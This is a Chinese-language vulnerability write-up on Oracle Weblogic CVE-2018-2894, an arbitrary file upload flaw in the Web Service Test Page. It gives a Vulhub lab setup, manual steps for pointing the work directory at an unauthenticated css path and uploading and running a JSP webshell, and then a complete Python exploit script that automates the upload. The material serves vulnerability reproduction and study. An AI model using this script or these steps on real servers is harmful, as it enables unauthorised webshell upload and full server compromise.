 # Weblogic 任意文件上传漏洞 CVE-2018-2894

## 漏洞描述

Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html
- https://mp.weixin.qq.com/s/y5JGmM-aNaHcs_6P9a-gRQ
- https://xz.aliyun.com/t/2458

## 环境搭建

Vulhub执行如下命令，启动weblogic 12.2.1.3：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:7001/console`，即可看到后台登录页面。

执行`docker-compose logs | grep password`可查看管理员密码，管理员用户名为`weblogic`。

![image-20220302203000932](./images/202203022030030.png)

登录后台页面，点击`base_domain`的配置，在“高级”中开启“启用 Web 服务测试页”选项：

![image-20220302203542573](./images/202203022035688.png)

## 漏洞复现

访问`http://your-ip:7001/ws_utc/config.do`，设置Work Home Dir为`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`。

此处将目录设置为`ws_utc`应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。

![image-20220302203638857](./images/202203022036918.png)

然后点击安全 -> 增加，然后上传webshell：

![image-20220302203827084](./images/202203022038182.png)

上传后，查看返回的数据包，其中有时间戳：

![image-20220302203933002](./images/202203022039062.png)

然后访问`http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]`，即可执行webshell：

![image-20220302204103311](./images/202203022041348.png)

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

## 漏洞EXP

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

from __future__ import print_function
from builtins import str
import re
import sys
import time
import argparse
import requests
import traceback
import xml.etree.ElementTree as ET


def get_current_work_path(host):
    geturl = host + "/ws_utc/resources/setting/options/general"
    ua = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0'}
    values = []
    try:
        request = requests.get(geturl)
        if request.status_code == 404:
            exit("[-] {}  don't exists CVE-2018-2894".format(host))
        elif "Deploying Application".lower() in request.text.lower():
            print("[*] First Deploying Website Please wait a moment ...")
            time.sleep(20)
            request = requests.get(geturl, headers=ua)
        if "</defaultValue>" in request.content:
            root = ET.fromstring(request.content)
            value = root.find("section").find("options")
            for e in value:
                for sub in e:
                    if e.tag == "parameter" and sub.tag == "defaultValue":
                        values.append(sub.text)
    except requests.ConnectionError:
        exit("[-] Cannot connect url: {}".format(geturl))
    if values:
        return values[0]
    else:
        print("[-] Cannot get current work path\n")
        exit(request.content)


def get_new_work_path(host):
    origin_work_path = get_current_work_path(host)
    works = "/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css"
    if "user_projects" in origin_work_path:
        if "\\" in origin_work_path:
            works = works.replace("/", "\\")
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects\\domains"
            dir_len = len(current_work_home.split("\\"))
            domain_name = origin_work_path.split("\\")[dir_len]
            current_work_home += "\\" + domain_name + works
        else:
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects/domains"
            dir_len = len(current_work_home.split("/"))
            domain_name = origin_work_path.split("/")[dir_len]
            current_work_home += "/" + domain_name + works
    else:
        current_work_home = origin_work_path
        print("[*] cannot handle current work home dir: {}".format(origin_work_path))
    return current_work_home


def set_new_upload_path(host, path):
    data = {
        "setting_id": "general",
        "BasicConfigOptions.workDir": path,
        "BasicConfigOptions.proxyHost": "",
        "BasicConfigOptions.proxyPort": "80"}
    request = requests.post(host + "/ws_utc/resources/setting/options", data=data, headers=headers)
    if "successfully" in request.content:
        return True
    else:
        print("[-] Change New Upload Path failed")
        exit(request.content)


def upload_webshell(host, uri):
    set_new_upload_path(host, get_new_work_path(host))
    files = {
        "ks_edit_mode": "false",
        "ks_password_front": password,
        "ks_password_changed": "true",
        "ks_filename": ("360sglab.jsp", upload_content)
    }

    request = requests.post(host + uri, files=files)
    response = request.text
    match = re.findall("<id>(.*?)</id>", response)
    if match:
        tid = match[-1]
        shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
        if upload_content in requests.get(shell_path, headers=headers).content:
            print("[+] {} exists CVE-2018-2894".format(host))
            print("[+] Check URL: {} ".format(shell_path))
        else:
            print("[-] {}  don't exists CVE-2018-2894".format(host))
    else:
        print("[-] {}  don't exists CVE-2018-2894".format(host))


if __name__ == "__main__":
    start = time.time()
    password = "360sglab"
    url = "/ws_utc/resources/setting/keystore"
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", dest='target', default="http://127.0.0.1:7001", type=str,
                        help="target, such as: http://example.com:7001")

    upload_content = "360sglab test"
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'X-Requested-With': 'XMLHttpRequest', }

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
    target = args.target

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        upload_webshell(target, url)
    except Exception as e:
        print("[-] Error: \n")
        traceback.print_exc()
```

